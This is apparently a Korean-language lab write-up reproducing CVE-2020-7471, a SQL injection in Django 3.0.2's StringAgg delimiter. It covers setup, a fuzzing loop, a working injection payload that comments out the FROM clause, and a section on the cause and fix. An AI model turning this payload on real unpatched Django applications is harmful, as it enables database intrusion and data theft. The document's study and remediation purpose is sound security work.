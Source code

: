 # CVE-2020-7471

## 1. 환경 구성
+ **Ubuntu 20.04 버전**

+ **Django 3.0.2 설치**
  + pip install django~=3.0.2
 
+ **postgresql 13 설치**
  + sudo apt-get update
  + sudo apt show postgresql
  + sudo apt -y install postgresql postgresql-contrib
  + /etc/init.d/postgresql start
 
+ **가상환경 구성**
  + virtualenv newenv
  + source newenv/bin/activate
  + pip install django~=3.0.2
  + django-admin --version
  + deactivate
 
+ **psycopg2 설치**
  + pip install psycopg2==2.8.6
+ **setting.py 설정**  
```
#setting.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'NAME': 'hxd',         
        'USER': 'postgres',
        'PASSWORD': '123456',
        'HOST': '127.0.0.1',
        'PORT': '5432',
    }
}
```
+ **마이그레이션**
```
#DB에 적용하는 과정
python3 manage.py migrate

#test_app 앱을 테이블 스키마를 생성 혹은 수정하기 위한 명령어
python3 manage.py makemigrations test_app

#test_app 앱을 DB에 적용하는 과정
python3 manage.py migrate test_app
```
+ **DB 생성**
  + CREATE DATABASES test
  + DB 조회: \c test
  + 테이블 조회: \d
  + 컬럼 조회: select * from vul_app_info;
 
    ![Untitled](https://user-images.githubusercontent.com/89399749/130726521-f428a240-12d5-401e-aec5-cccfd4b357f5.png)

--------------------------------------------------------------------------------------------------------------------------
## 2. PoC
+ 구분 기호가 SQL 인젝션을 일으키는 방법을 테스트하기 위한 FUZZ 프로그램
```
for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
    for e in results:
        pass
```
 + 정상적인 SQL 구문 출력
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
```

   ![6](https://user-images.githubusercontent.com/89399749/130728444-95f099dd-6847-462c-b09c-370fb4581b75.png)


  + SQL Injection 구문
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 --"))
```

   ![7](https://user-images.githubusercontent.com/89399749/130728459-a5e5520d-0fcd-4f06-81c7-b4a123f21896.png)


+ python CVE-2020-7471.py

![8](https://user-images.githubusercontent.com/89399749/130728470-999e9e69-f35f-4c29-a3a8-42eaf3628f81.png)


---------------------------------------------------------------------------------------------------------------------

## 3. 대응방안

+ 테스트결과 작은따음표가 이스케이프 없이 SQL 문에 포함되어 오류 메시지를 출력

![2](https://user-images.githubusercontent.com/89399749/130728331-ec88aeb2-13bf-4502-a66e-a995cc22284f.png)


+ self.cursor.execute를 호출하며 변수 창의 SQL 변수가 아직 delimiter 값을 포함하지 않음을 확인

![3](https://user-images.githubusercontent.com/89399749/130728343-d2a15c5d-523a-4cab-a325-6b0fb36f1b9b.png)


+ 86행에 SQL이 delimiter 값을 작음따음표로 추가한것을 확인

![4](https://user-images.githubusercontent.com/89399749/130728349-c43d4473-ad36-47ca-aad9-76c6bb24f16f.png)


+ 작음따음표 와 괄호 닫기를 사용하여 FROM문이 주석처리됨을 확인


![5](https://user-images.githubusercontent.com/89399749/130728431-cb76a989-823a-4710-b27a-e6b1699a2052.png)


+ delimiter_expr = Value(str(delimiter))
  + 해당 문장을 추가하여 SQL 매개변수가 이스케이프 되지않도록 조치해야함

![9](https://user-images.githubusercontent.com/89399749/130728481-ffc3b15b-569f-4ab5-a231-7bfa53ce78e2.png)

---------------------------------------------------------------------------------------------------------------------

## 4. 참조
+ https://github.com/Safeman/CVE-2020-7471
+ https://www.heibai.org/1661.html
